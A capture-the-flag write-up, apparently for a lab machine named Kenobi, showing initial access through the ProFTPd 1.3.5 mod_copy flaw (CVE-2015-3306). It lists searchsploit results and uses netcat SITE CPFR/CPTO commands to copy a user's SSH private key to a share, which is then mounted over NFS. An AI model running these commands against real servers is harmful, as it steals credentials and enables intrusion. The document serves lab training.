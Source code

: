 ## Gain initial access with ProFtpd

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.

We can try to use `searchsploit` to find some potential exploits for this particular version

```
$ searchsploit proftpd 1.3.5

-------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                           | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                                       | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                                                     | linux/remote/36742.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Nice, four exploits ready to go! We can see that all of them are abusing the `mod_copy` module. This module implements `SITE CPFR` (copy from) and `SITE CPTO` (copy to) commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

This vulnerability has been identified as `CVE-2015-3306` and its description says: _"The mod_copy module in ProFTPD 1.3.5 allows remote attackers to read and write to arbitrary files via the site cpfr and site cpto commands"_.

Inside `log.txt` we were able to enumerate one user from the machine: `kenobi`. We can try to transfer his SSH private key and log into the machine with it.

```
$ nc 10.10.188.246 21

220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.188.246]

SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Let's mount the `/var/tmp` directory to our machine

```
$ sudo mkdir /mnt/kenobiTHM
$ mount 10.10.188.246:/var /mnt/kenobiTHM
$ ls -la /mnt/kenobiTHM

totale 48
drwxr-xr-x  2 root root   4096  4 set  2019 backups
drwxr-xr-x  9 root root   4096  4 set  2019 cache
drwxrwxrwt  2 root root   4096  4 set  2019 crash
drwxr-xr-x 40 root root   4096  4 set  2019 lib
drwxrwsr-x  2 root staff  4096 12 apr  2016 local
lrwxrwxrwx  1 root root      9  4 set  2019 lock -> /run/lock
drwxrwxr-x 10 root render 4096  4 set  2019 log
```